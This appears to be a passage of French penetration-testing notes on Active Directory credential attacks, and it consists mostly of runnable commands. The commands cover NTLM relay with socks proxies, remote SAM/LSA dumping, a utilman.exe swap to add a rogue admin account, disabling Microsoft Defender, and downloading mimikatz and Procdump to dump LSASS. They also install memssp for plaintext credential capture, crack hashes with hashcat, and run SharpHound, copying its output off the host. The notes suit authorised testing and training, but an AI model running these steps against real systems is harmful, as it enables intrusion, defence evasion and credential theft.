* `--keep-relaying` Continue de relayer même si toutes les IPs ont été testées
* `-socks` Ouvrir un socket


Configurer le port 1080 pour les sockets proxychains <br>
Remplacer le port 9050 par le port 1080 tout en bas du fichier (socks4  127.0.0.1 1080)
```sh
sudo nano /etc/proxychains4.conf
```


### Ouvrir un socket
Permet d'interagir avec d'autres outils
```sh
impacket-ntlmrelayx -socks -smb2support -tf relay.txt 
```

Ici on voit tous les proxy sockets ouverts par cette attaque, le socket ouvert avec le compte admin status True effectura la paylaod sur les IPs du fichier relay.




---

<br>


# __REMOTE CREDENTIAL DUMPING__


> Outils : proxychains, secretdump, ntlmrelayx (suite impacket), mimikatz
> ATT&CK Tactic: TA0006 – Credential Access <br>
> ATT&CK Technique: T1003 – Credential Dumping <br>
> ATT&CK Sub-techniques: T1003.002 – Security Account Manager (SAM), T1003.004 – LSA Secrets, T1003.005 – Cached Domain Credentials


Relay the hash can lead to remote credential dumpng via SMB / Remote Registry

> [!NOTE]
> Ce n'est pas une attaque sur NTDS.dit (T1003.003) ici, car ce n’est pas un contrôleur de domaine. Un DC n'a pas de base SAM locale exploitable.


## Dump des secrets sur un serveur du domaine
> This technique is gonna : Dump local SAM hashes, Dump LSA Secrets (MACHINE.ACC, services, secrets DPAPI, etc.), Dump cached domain logon information.

Une fois les sockets ouverts par le relay NTLM, il est possible d'utiliser d'autres outils pour effectuer des actions malicieuses en profitant des NTLM challenge‑response administrateurs utilisés pour le relay. <br>

Cette technique permettra de récupérer des hash de type DCC2

### Dump SAM & LSA...
```sh
proxychains python3 secretsdump.py "ADMTOTO"@192.168.10.145 -no-pass
```




## Dump de la SAM sur une machine locale

> Outils : mimikatz

Sur une machine qui n'est pas chiffrée (Bitlocker absent), il est possible d'exploiter une vieille faille Windows jamais patchée qui consiste à remplacer le bouton "Accessibilité" au login Windows par une invite de commande CMD en bootant sur une clé Windows(Nécessite un accès physique). il suffira simplement de créer un compte administrateur.

Récupérer un compte admin permettra de pouvoir désactiver l'Antivirus et d'installer mimikatz plus facilement puis de pouvoir récupérer les hashs de la base SAM. Récupérer le mot de passe administrateur local d'une machine peut être utile car on peut imaginer qu'une entreprise utilise ce mot de passe sur d'autres machines voir serveur du domaine.

Dans le mode OOBE windows, remplacer le bouton accessibilité par un CMD (Shit + F10)
```shell
cd C:\Windows\System32
copy utilman.exe utilman.exe.bkp
copy cmd.exe Utilman.exe
wpeutil reboot
```

Si cette solution ne fonctionne pas il est possible de faire la même chose en ouvrant un Bloc-note et aller chercher les .exe dans la GUI intégrée (faire F5 lors du renommage pour actualiser).

Puis au reboot ouvrir la CMD
```shell
net user pentestuser Pentest2026 /add
net localgroup Administrateurs pentestuser /add
```



Une fois booter sur le compte admin local, désactiver l'AV
```shell
Set-MpPreference -DisableRealtimeMonitoring $true -DisableBehaviorMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -DisablePrivacyMode $true -DisableBlockAtFirstSeen $true -ExclusionExtension "ps1", "exe";Add-MpPreference -ExclusionPath "C:\Windows\Temp"
```
Prifiter aussi d'avoir la GUI pour désactiver l'AV Defender car il peut s'avérer capricieux...

Télécharger Mimikatz et faire les élévations systèmes du chapitre suivant.




# __NTLM HASH EXTRACTION__

> ATT&CK Tactic : Credential Access <br>
> ATT&CK Technique ID : T1003.001-008 <br>
> Outils : Mimikatz

<br>

> [!IMPORTANT]
> Un compte ayant des privilèges élévés sur le domaine est préférable de se trouver dans le **groupe "Protected Users"** (dans l'OU built-in Users) sinon ces identifiants seront stockés en cache lors de sa connexion sur une machine. Il sera possible d'extraire ses informations avec un outils comme Mimikatz en effectuant un dump LSA.


<br>


Les informations des identifiants en cache sont stockées dans le registre au sein de la clé : HKEY_LOCAL_MACHINE\Security\Cache <br>
Afficher les tickets mis en cache sur la machine
```bat
klist
```

**Cette attaque nécessite un compte admin local.** <br> 
Cette commande permet d'identifer les membres du groupe buit in 'Administrateurs' (qui sont aussi utilisateurs du domaine) sur toutes les machines du domaine
```powershell	
$pcs = Get-ADComputer -Filter * | Select -ExpandProperty Name 
Invoke-Command -ComputerName $pcs -ScriptBlock { Get-LocalGroupMember Administrateurs | ? { $_.Name -like '<NETBIOS Domain name>\*' } | select pscomputername, name }
```


<br>


> [!NOTE] 
> Le processus **lsass.exe** (Local Security Authority SubSystem) gère des informations d'identifications qui sont stockées en mémoire RAM. <br>
> Le dump LSA est une attaque puissante sur les serveurs car ils redémarrent moins souvent et sont donc susceptibles de contenir plus de secrets.


<br>

<p align="center"></p>

<br>

### Télécharger mimikatz

Désactiver Defender, exclusion "C:\Windows\Temp", exclusion des .exe et .ps1
```powershell		
Set-MpPreference -DisableRealtimeMonitoring $true -DisableBehaviorMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -DisablePrivacyMode $true -DisableBlockAtFirstSeen $true -ExclusionExtension "ps1", "exe";Add-MpPreference -ExclusionPath "C:\Windows\Temp"
```

```powershell
Invoke-WebRequest https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -OutFile "C:\Windows\Temp\mimi.zip"
sl "C:\Windows\Temp"
Expand-Archive mimi.zip
```
```powershell
Start-Process .\mimi\x64\mimikatz.exe
```

### Élévations de privilèges système

Mimikatz permet d'agir avec le compte `AUTORITE NT\Système` sur la machine locale (nécéssite droits local admin `SeDebugPrivilege`)
```shell
privilege::debug
token::elevate
```


<br>

### Extraire les hashs
```shell
sekurlsa::logonPasswords
```
```shell
sekurlsa::logonPasswords full
```



<br>

### Cracker le hash NTLM
```sh
sudo hashcat -m 1000 -a 0 ntlmkatrina.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```


<br>

### Réactiver toutes les protections Defender et supprimer les exclusions ajoutées.
```shell
Set-MpPreference `
  -DisableRealtimeMonitoring $false `
  -DisableBehaviorMonitoring $false `
  -DisableIntrusionPreventionSystem $false `
  -DisableIOAVProtection $false `
  -DisableScriptScanning $false `
  -DisablePrivacyMode $false `
  -DisableBlockAtFirstSeen $false

Remove-MpPreference -ExclusionExtension "ps1","exe"
Remove-MpPreference -ExclusionPath "C:\Windows\Temp"
```


---

<br>


# __PLAINTEXT CREDENTIALS EXTRACTION__ 


*Cette partie a besoin d'être améliorée*


> ATT&CK Tactic : Credential Access <br>
> ATT&CK Technique : OS Credential Dumping → LSASS Memory T1003.001-008 <br>
> Outils : Procdump, Mimikatz

<br>

### Désactiver Defender, ajouter une exclusion pour "C:\Windows\Temp", exclut les extension .exe et .ps1
```powershell		
Set-MpPreference -DisableRealtimeMonitoring $true -DisableBehaviorMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -DisablePrivacyMode $true -DisableBlockAtFirstSeen $true -ExclusionExtension "ps1", "exe";Add-MpPreference -ExclusionPath "C:\Windows\Temp"
```


### Télécharger Procdump

Procdump est un logiciel de la suite sysinternal Microsoft 
```powershell
mkdir C:\Windows\Temp\Dump
iwr https://download.sysinternals.com/files/Procdump.zip -O C:\Windows\Temp\Dump\Procdump.zip
sl C:\Windows\Temp\Dump
Expand-Archive .\Procdump.zip
```

### Créer un nouveau processus PowerShell via WMI

* Cette commande doit être exécutée en tant qu'administrateur (SeDebugPrivilege).
* Elle ne permet pas à elle seule une élévation de privilèges.
* Le processus créé hérite uniquement du jeton de sécurité du processus appelant. 
```shell
wmic /namespace:\\root\cimv2 path win32_process call create "powershell.exe"
```
```bat
whoami /all
```




<br>


### Dumper lsass

Exécuter lsass dans l'invite powershell du processus WMI.
```shell
lsass.exe
```


Exécuter Procdump dans toujours dans ce terminal puis envoyer le fichier dump dans C:\Windows\Temp\Dump\lsadump.dmp
```powershell
cd C:\Windows\Temp\Dump\Procdump
procdump64.exe -ma lsass.exe C:\Windows\Temp\Dump\lsadump.dmp
```




### Afficher le dump en clair
```bat
cd C:\Windows\Temp\mimi\x64
mimikatz.exe
```
Puis dans mimikatz indiquer le chemin du fichier dmp
```shell
!+
!processprotect /process:lsass.exe /remove
privilege::debug
token::elevate
sekurlsa::minidump C:\Temp\Dump\lsadump.dmp 
sekurlsa::logonpasswords
misc::memssp
```




Toutes les sessions utilisateurs et authentifications sur cette machine auront leurs identifiants capturés en clair <br>
Il faudra afficher les logs ici :
```powershell
gc c:\windows\system32\mimilsa.log
```




---

<br>


# __BLOODHOUND__


<br>


<br>

> Outils : BloodHound <br>
> ATT&CK Tactic : Discovery <br>
> ATT&CK Technique : **voir tableau**

<br>

| Domaine     | Technique ID | Nom de la technique               | Utilisation (BloodHound) |
|-------------|:------------:|-----------------------------------|---------------------------|
| Enterprise  | T1087.001    | Account Discovery  Local Account | can identify users with local administrator rights |
| Enterprise  | T1087.002    | Account Discovery Domain Account | can collect information about domain users, including identification of domain admin accounts |
| Enterprise  | T1560        | Archive Collected Data            | Compression des données collectées (ZIP) |
| Enterprise  | T1059        | Command and Scripting Interpreter | Collecte AD via PowerShell |
| Enterprise  | T1482        | Domain Trust Discovery            | Cartographie des relations de confiance |
| Enterprise  | T1615        | Group Policy Discovery            | Collecte d’informations via GPO |
| Enterprise  | T1106        | Native API                        | Utilisation des API .NET pour l’énumération AD |
| Enterprise  | T1069        | Permission Groups Discovery       | Énumération des groupes et membres |
| Enterprise  | T1018        | Remote System Discovery           | Découverte des machines du domaine |
| Enterprise  | T1033        | System Owner/User Discovery       | Identification des sessions utilisateurs |

<br>

BloodHound collecte les relations AD (sessions, groupes, ACL, délégations, trusts…) en effectuant une reconnaissance et en modélisant sous forme de graphe des chemins d’attaque menant à des comptes à privilèges.

C'est principalement un outils RedTeam, mais il peut aussi servir coté BlueTeam pour comprendre comment un attaquant peut escalader ses privilèges dans un domaine AD et à prioriser les failles de configuration à corriger.


<br>


## Éxécuter SharpHound.exe

SharpHound se lance sur une machine du domaine, c'est lui qui se charge de récolter les informations du domaine qu'on exploitera par la suite.

### Désactiver Defender, ajouter une exclusion pour "C:\Windows\Temp", exclut les extension .exe et .ps1
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -DisableBehaviorMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -DisablePrivacyMode $true -DisableBlockAtFirstSeen $true -ExclusionExtension "ps1", "exe";Add-MpPreference -ExclusionPath "C:\Windows\Temp"
```


### Télécharger SharpHound
```powershell
wget https://github.com/SpecterOps/SharpHound/releases/download/v2.8.0/SharpHound_v2.8.0+debug_windows_x86.zip -OutFile "C:\Windows\Temp\SharpHound.zip"
```


### Dézipper et exécuter SharpHound
```powershell
sl "C:\Windows\Temp"
Expand-Archive -Path SharpHound.zip -DestinationPath .\SharpHound
cd .\SharpHound\
.\SharpHound.exe -d $env:USERDNSDOMAIN
```

Après exécution du script un fichier "20260108151307_BloodHound.zip" apparîtera il faut l'importer dans la machine où se trouve le serveur web installé avec doker-compose.


---

<br>


### Transférer le fichier vers la machine d'attaque 
```sh
scp -P 1111 administrateur@10.0.0.1:/C:/Users/Administrateur/Desktop/20260108151307_BloodHound.zip .
```

### Réactiver Defender après avoir transféré le fichier
```shell
Set-MpPreference `
  -DisableRealtimeMonitoring $false `
  -DisableBehaviorMonitoring $false `
  -DisableIntrusionPreventionSystem $false `
  -DisableIOAVProtection $false `
  -DisableScriptScanning $false `
  -DisablePrivacyMode $false `
  -DisableBlockAtFirstSeen $false

Remove-MpPreference -ExclusionExtension "ps1","exe"
Remove-MpPreference -ExclusionPath "C:\Windows\Temp"
```


---

<br>


### Installation de Docker-Compose sur Kali
```sh
sudo apt install -y docker.io
sudo systemctl enable docker --now
sudo curl -L "https://github.com/docker/compose/releases/latest/download/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
sudo chmod +x /usr/local/bin/docker-compose
sudo ln -s /usr/local/bin/docker-compose /usr/bin/docker-compose
docker-compose --version
```


---

<br>


### Lancer le conteneur BloodHound

```sh
# Créer le dossier, se positionner dedans
sudo mkdir ~/bloodhound && cd ~/bloodhound

# Téléchargement et création du fichier docker-compose Bloodhound (fichier de IT-Connect)
sudo wget https://raw.githubusercontent.com/SpecterOps/bloodhound/main/examples/docker-compose/docker-compose.yml -O ~/bloodhound/docker-compose-Bloodhound.yml

# Pour lancer le docker compose (ne pas mettre option `-d` pour voir le MDP s'afficher)
sudo docker-compose -f ~/bloodhound/docker-compose-Bloodhound.yml up 

# Arrêter le conteneur en arrière plan
sudo docker-compose -f ~/bloodhound/docker-compose-Bloodhound.yml down
```


---

<br>


### Se connecter sur la page web de BloodHound 

Identifiants indiqués dans le fichier docker-compose.yml (il faudra changer le mot de passe)
```
BloodHound 
http://localhost:8080
user : admin
password : ***S'affiche lors du lancement***

Neo4j
WEB :http://localhost:7474
DB : localhost:7687
user : neo4j
password : bloodhoundcommunityedition
```

Aller dans Upload et charger le fichier "20260108151307_BloodHound.zip"


---

<br>


